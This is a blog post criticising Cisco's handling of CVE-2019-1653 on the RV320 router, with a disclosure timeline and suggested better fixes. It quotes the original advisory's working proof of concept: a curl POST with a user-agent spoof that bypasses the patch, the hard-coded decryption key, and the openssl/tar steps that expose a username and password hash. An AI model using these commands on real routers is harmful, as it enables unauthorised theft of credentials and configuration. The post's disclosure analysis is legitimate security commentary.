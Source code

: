 ```yaml
---
layout: post
title: Security, CVE-2019-1653 an example how not to do it. 
---
```

## Introduction 
Recently an security incident came in the news that shows how not to handle security incidents. 
First an small summary from my side of the issue based on the information from the people that discured the issue 
[redteam-pentesting.de](https://www.redteam-pentesting.de/en/advisories/rt-sa-2019-004/-cisco-rv320-unauthenticated-diagnostic-data-retrieval)
The Cisco RV320 Dual Gigabit WAN VPN Router has a web based gui. 
With this GUI there is in the CGI-bin directory an utility program to download debug messages from the Router.

The security issue is that this undocumented utility does more than just downloads the debug messages, it also contains configuration inforamtion that you don't want to expose to the internet but much more also the system configuration and tarred copies of /etc and /var. The only protection it got is an hardcoded password. 

## How to get the information 
This section is copied from the redteam-pentesting advisory: 

The diagnostic data can be retrieved by issuing an HTTP POST request to
the vulnerable CGI program. OpenSSL is used to decrypt the data with the
hard-coded password "NKDebug12#$%" before unpacking it with tar (output
shortened):

------------------------------------------------------------------------
$ curl -k -A kurl -X POST --data 'submitdebugmsg=1' \
  'https://192.168.1.1/cgi-bin/export_debug_msg.exp' > debug

$ openssl aes-128-cbc -salt -md md5 -d \
  -k 'NKDebug12#$%' < debug > debug.tgz

$ mkdir output && tar -xf debug.tgz -C output/

$ ls -1 output/
debug_messages.txt
etc.tgz
nk_sysconfig
var.tgz

$ cat output/nk_sysconfig
####sysconfig####
[VERSION]
VERSION=73
MODEL=RV320
SSL=0
IPSEC=0
PPTP=0
PLATFORMCODE=RV0XX
[...]
[SYSTEM]
HOSTNAME=router
DOMAINNAME=example.com
DOMAINCHANGE=1
USERNAME=cisco
PASSWD=066bae9070a9a95b3e03019db131cd40
[...]
------------------------------------------------------------------------

## Issues
Now the real issues with this security incident can be seen from the timeline: 
Timeline
========

2018-09-19 Original vulnerability identified
2018-09-27 Customer approved disclosure to vendor
2018-09-28 Vendor notified
2018-10-05 Receipt of advisory acknowledged by vendor
2018-10-05 Notified vendor of disclosure date: 2019-01-09
2018-11-18 List of affected versions provided by vendor
2018-12-21 Postponing disclosure to 2019-01-23, as requested by vendor
2019-01-22 Firmware 1.4.2.20 released by vendor
2019-01-23 Advisory (rt-sa-2018-003) published

2019-02-07 Incomplete mitigation of vulnerability identified
2019-02-08 Proof of concept sent to vendor
2019-02-08 Receipt of proof of concept acknowledged by vendor
2019-02-15 Full advisory sent to vendor
2019-02-15 Notified vendor of disclosure date: 2019-03-27
2019-03-25 Requested progress update from vendor
2019-03-25 Vendor requests postponed disclosure
2019-03-25 Postponement declined
2019-03-27 Advisory published

It took Cisco 3 months to fix this issue the first time, and that was not correct. Then when informed that the fix was incorrect they needed more than 2 months for yet another update (now expected in April). 

The problem is that if you publish a software  update for a security issue for an important piece of software or hardware, the bad guys will analyse your update. This will try to understand the issue in detail, the details that are typically left out from the initial problem description (CVE) to make it too easy for the bad hackers to exploit the issue. 

They try to understand in which part of the software the issues lies, how the software is vulnerable and if there exists other security issues in the same software part that can be abused.
Typically when a network abusable problem it is found it is added in the toolchests of the script kiddies and you can see attempts to exploit in honeypots in a matter of weeks. 

Thus  when publishing such a security update, there is pressue to deliver a fix quickly. 

The current fix in firmware 1.4.2.20 disallows curl based on http user agent.  
This is a bad fix and a trivial change was made in the proof of content code above (-A kurl) to allow the issue to persist.

## Beter fixes
Better fixes would be 
    - Remove the export_debug_msg.exp completely from the sofware distribution. I could not find the functionality mentioned in the external software documentation so it looks to me like an internal command for Cisco support  personell.
    Check if it is really used in the field and if there are no other more secure procedures, may be a bit less convinient for your support people.  
    - Only have the programs respond to the local network not to the entire internet. Stop any communication if is not from a local interface and make the answer non-routable. 
    This avoids the software being scanned and abused remotely. 
    - Make the decryption key device specific instead of an hardcoded value. Each customer should provide some information to the support engineer that does not know yet, to decrypt the software. 
    For example Serial number of the device + the date the program was run as key.
    - Add a username/password via HTTP Authentication to the program so only authorized users can run it.
    
## Morale of the story 

Fixing security issues: 

Actively discuss and select a good solution for security fixes. Not the 'just fix it approach' but specify and discuss fixes. 
Propose multiple solutions and select the best one. 
Here Cisco management dropped the ball. That the engineer in question made the error is not good but that the supervisors did not catch the issue is unexcusable. 

## Timelines: 

Security issues are race between the administrators of systems and the bad guys. The longer a fix takes the more damage is done.
A 3 month period for the first update is long, the more than 2 month for a correction on the earlier fix really hurt some people using this equipment. 

You need to have a process in place to produce emergency fixes quickly, in a matter of days, not months. 
This proves to me that Cisco does not have an quick, automated build and test infrastructure in place for their RV320 Routers. 
Nowadays due to this kind of security issues companies should invest in continous integration  and automatic testing to be able to 
deliver security updates quickly. 


